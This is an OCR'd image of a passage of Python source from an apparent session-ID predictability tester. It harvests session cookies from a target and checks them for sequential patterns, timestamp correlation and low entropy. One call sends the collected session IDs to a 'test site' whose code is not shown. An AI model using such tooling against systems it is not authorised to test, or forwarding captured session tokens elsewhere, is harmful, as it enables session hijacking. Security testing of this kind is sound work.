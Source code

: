 ```python
                        print(f"  Sample {i+1}: {cookie.value[:20]}...")
                        break
                        
            except Exception as e:
                print(f"  [-] Error collecting sample {i+1}: {e}")
            
            time.sleep(0.5)  # Rate limiting
        
        # Send analysis data to test site
        self.send_analysis_data(session_ids, timestamps)
        return session_ids, timestamps
    
    def analyze_session_patterns(self, session_ids, timestamps):
        """Analyze session ID patterns for predictability"""
        print("\n[+] Analyzing session patterns...")
        
        analysis_results = {
            'total_samples': len(session_ids),
            'vulnerabilities': [],
            'entropy_analysis': {},
            'pattern_analysis': {}
        }
        
        # Test for sequential patterns
        if self.test_sequential_patterns(session_ids):
            analysis_results['vulnerabilities'].append("Sequential session IDs detected")
        
        # Test for timestamp correlation
        if self.test_timestamp_correlation(session_ids, timestamps):
            analysis_results['vulnerabilities'].append("Session IDs correlate with timestamps")
        
        # Calculate entropy
        avg_entropy = self.calculate_average_entropy(session_ids)
        analysis_results['entropy_analysis']['average'] = avg_entropy
        
        if avg_entropy < 64:
            analysis_results['vulnerabilities'].append(f"Low entropy detected: {avg_entropy:.2f} bits")
        
        # Test for hash patterns
        hash_patterns = self.detect_hash_patterns(session_ids)
        analysis_results['pattern_analysis']['hash_patterns'] = hash_patterns
        
        return analysis_results
    
    def test_sequential_patterns(self, session_ids):
        """Test for sequential session ID patterns"""
        numeric_ids = [int(sid) for sid in session_ids if sid.isdigit()]
        
        if len(numeric_ids) >= 3:
            differences = [numeric_ids[i+1] - numeric_ids[i] for i in range(len(numeric_ids)-1)]
            # Check for consistent increments
            return len(set(differences)) <= 2
        
        return False
    
    def test_timestamp_correlation(self, session_ids, timestamps):
        """Test if session IDs correlate with timestamps"""
        correlations = 0
        
        for i, sid in enumerate(session_ids):
            if sid.isdigit():
                session_time = int(sid)
```